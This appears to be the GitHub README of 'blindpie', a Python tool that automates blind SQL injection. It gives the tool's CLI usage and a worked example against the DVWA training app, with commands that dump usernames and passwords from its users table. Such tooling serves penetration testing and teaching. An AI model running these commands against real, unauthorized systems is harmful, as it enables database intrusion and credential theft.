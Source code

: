 <h1 align="center">
	<br>blindpie<br>
</h1>

<h4 align="center">Automatically exploit blind-SQLi vulnerabilities</h4>

<p align="center">
	<a href="https://github.com/alessiovierti/blindpie/releases">
		<img src="https://img.shields.io/github/release/alessiovierti/blindpie.svg">
	</a>
	<a href="https://travis-ci.org/alessiovierti/blindpie">
		<img src="https://travis-ci.org/alessiovierti/blindpie.svg?branch=master">
	</a>
</p>

<p align="center">
	<a href="#installation">Installation</a> •
	<a href="#features">Features</a> •
	<a href="#usage">Usage</a> •
	<a href="#examples">Examples</a> •
	<a href="#tips">Tips</a> •
	<a href="#contributing">Contributing</a>
</p>

<img align="center" src="https://i.imgur.com/tfMaLG9.gif" alt="Demo Long Fetch">

### Installation

```
pip install blindpie
```

### Features

- Test if any parameter is exploitable
- **Fast** multithreading fetching of a table
- Dump part of a table or keep fetching until stopped / until end of table
- Dump results on a TSV file
- Use custom headers for HTTP requests
- Define the default values of the other parameters in the requests

### Usage

<h4 align="center">Testing parameters</h4><p></p>

<img align="center" src="https://i.imgur.com/0D9Zyx0.gif" alt="Demo Test">

```
usage: blindpie.py test [-h] -M method -P params [-H headers] [-T threshold]
                        [-I max_interval]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters to test and their default values (must
                        be a JSON dictionary)
  -H headers, --headers headers
                        the headers for the requests (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
```

<h4 align="center">Fetching a table</h4><p></p>

<img align="center" src="https://i.imgur.com/ubsFh8M.gif" alt="Demo Short Fetch">

```
usage: blindpie.py fetch_table [-h] -M method -P params [-H headers]
                               [-T threshold] [-I max_interval] -p
                               vulnerable_param -t table -c columns
                               [-r from_row] [-n n_rows]
                               [--min_row_length min_row_length]
                               [--max_row_length max_row_length]
                               [-o output_path]

optional arguments:
  -h, --help            show this help message and exit
  -M method, --method method
                        the HTTP method for the requests
  -P params, --params params
                        the parameters and their default values (must be a
                        JSON dictionary)
  -H headers, --headers headers
                        the headers for the request (must be a JSON
                        dictionary)
  -T threshold, --threshold threshold
                        threshold used to decide if an answer is affirmative
                        or negative (must be greater than 1)
  -I max_interval, --max_interval max_interval
                        max time to wait between each request in ms
  -p vulnerable_param, --vulnerable_param vulnerable_param
                        the vulnerable parameter to exploit
  -t table, --table table
                        the name of the table to fetch
  -c columns, --columns columns
                        the columns to select
  -r from_row, --from_row from_row
                        the row from which to start to select
  -n n_rows, --n_rows n_rows
                        the number of rows to select
  --min_row_length min_row_length
                        limit selection to rows with this min length
  --max_row_length max_row_length
                        limit selection to rows with this max length
  -o output_path, --output_path output_path
                        path to the output file
```

### Examples

Let's consider for example the [Damn Vulnerable Web Application](http://www.dvwa.co.uk), in particular its page `vulnerabilities/sqli_blind/`.

The page shows a form to search information about a user. The form sends a GET request with parameters `id` and `Submit`.

To test which parameters are exploitable we can use the `test` command:

- First, we need to prepare a default request which contains the default values for the parameters, as a JSON dictionary:

	`{"id":"1","Submit":"Submit"}`

- Then we need to prepare the headers (if you don't provide any `blindpie` will use some default ones). In this case the page requires a PHPSESSID value in the Cookie header (and a cookie `security` to set the security level of DVWA):

	`{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}`

The following command will find which parameters are exploitable:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ test -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}'
```

`blindpie` will find out that the `id` parameter is indeed exploitable.

Let's say, for example, that we want to dump the `user` table, by selecting its columns `user` and `password` by exploiting the vulnerability we found.

The following command will dump the fetched rows into a TSV file:

```
$ blindpie.py -u {YOUR_DVWA_INSTANCE}/vulnerabilities/sqli_blind/ fetch_table -M get -P '{"id":"1","Submit":"Submit"}' -H '{"Cookie":"PHPSESSID={YOUR_PHPSESSID};security=medium"}' -p "id" -t "users" -c "user,password"
```

If you want to end the fetching before it may be completed, stop it with <kbd>CTRL</kbd>+<kbd>C</kbd>.
You'll find the dumped table in a file named `blindpie.out` in your working directory.

### Tips

`blindpie` gives you some ways of getting faster or more reliable results:

- `--threshold` can make fetching much faster when it's close to 1 but it will be also much less reliable.
- `--max_interval` can make requests more distant one with the other. Choose wisely since an high value will make fetching much slower. When testing local targets you should use 0.
- `--min_row_length` and `--max_row_length` can help get faster results by limiting the search to rows with length in this range.

### Contributing

If you have any idea, tip, or you want to contribute in any way, open an issue or contact me in any way you prefer.

If you want to have a look at how the project is structured check `./docs/uml/uml.svg`.

If you wanna play with it or extend it use the `Makefile` to install the requirements (`$ make init`) or launch the tests (`$ make test`).

### Authors

* **Alessio Vierti** - *Initial work*

### License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
